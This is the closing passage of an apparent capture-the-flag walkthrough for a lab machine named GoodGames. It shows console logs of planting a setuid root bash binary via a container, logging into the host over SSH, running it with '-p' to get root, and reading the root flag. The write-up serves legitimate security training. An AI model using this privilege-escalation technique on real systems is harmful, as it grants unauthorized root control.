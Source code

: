 ```Console
root@3a453ab39d3d:/home/augustus# ls -la
total 1168
drwxr-xr-x 2 1000 1000    4096 Apr 21 20:52 .
drwxr-xr-x 1 root root    4096 Nov  5 15:23 ..
lrwxrwxrwx 1 root root       9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwsrwxrwx 1 root root 1168776 Apr 21 20:52 bash
-rw-r----- 1 1000 1000      33 Apr 21 18:21 user.txt
```
 * Logged back into the host:
```Console
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password:
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 21 21:47:04 2022 from 172.19.0.2
augustus@GoodGames:~$ cd /home/augustus/
augustus@GoodGames:~$ ls
bash  user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.0# whoami
root
bash-5.0#
```
 * Grabbed the root flag:
```Console
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
```

Root flag obtained: 1ea***************************

